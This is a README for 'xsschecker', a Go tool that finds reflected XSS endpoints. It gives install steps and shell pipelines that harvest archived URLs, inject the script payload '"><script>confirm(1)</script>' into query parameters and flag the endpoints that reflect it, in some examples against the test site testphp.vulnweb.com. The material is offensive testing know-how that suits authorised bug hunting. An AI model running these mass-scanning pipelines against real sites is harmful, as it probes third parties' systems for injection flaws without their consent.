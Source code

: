 ```
██╗  ██╗███████╗███████╗ ██████╗██╗  ██╗███████╗ ██████╗██╗  ██╗███████╗██████╗ 
╚██╗██╔╝██╔════╝██╔════╝██╔════╝██║  ██║██╔════╝██╔════╝██║ ██╔╝██╔════╝██╔══██╗
 ╚███╔╝ ███████╗███████╗██║     ███████║█████╗  ██║     █████╔╝ █████╗  ██████╔╝
 ██╔██╗ ╚════██║╚════██║██║     ██╔══██║██╔══╝  ██║     ██╔═██╗ ██╔══╝  ██╔══██╗
██╔╝ ██╗███████║███████║╚██████╗██║  ██║███████╗╚██████╗██║  ██╗███████╗██║  ██║
╚═╝  ╚═╝╚══════╝╚══════╝ ╚═════╝╚═╝  ╚═╝╚══════╝ ╚═════╝╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝
```

<h3 align="center">xsschecker tool checking reflected endpoints finding possible xss vulnerable endpoints.</h3>

## Install
```
go install github.com/rix4uni/xsschecker@latest
```
or

```
git clone https://github.com/rix4uni/xsschecker.git && cd xsschecker && go build xsschecker.go && mv xsschecker /usr/bin/
```
## Usage
```
go run xsschecker.go -h
Usage: xsschecker [OPTIONS]

Options:
  -match string
        The string to match against the domain response. (required)
  -vuln
        If set, only vulnerable URLs will be printed.
```

## Reflected XSS Mass Automation
```
cat subs.txt | waybackurls >> waybackurls-urls.txt
cat subs.txt | gau >> gau-urls.txt
cat waybackurls-urls.txt gau-urls.txt | anew -q urls.txt

cat urls.txt | uro | gf allparam | grep "=" | gf blacklist | qsreplace '"><script>confirm(1)</script>' | xsschecker -match '"><script>confirm(1)</script>'
```

## Reflected XSS Oneliner Command1
```
echo "testphp.vulnweb.com" | waybackurls | gf xss | uro | qsreplace '"><script>confirm(1)</script>' | xsschecker -match '"><script>confirm(1)</script>' -vuln
```

## Reflected XSS Oneliner Command2
```
echo "testphp.vulnweb.com" | waybackurls | uro | gf allparam | grep "=" | gf blacklist | qsreplace '"><script>confirm(1)</script>' | xsschecker -match '"><script>confirm(1)</script>' -vuln
```
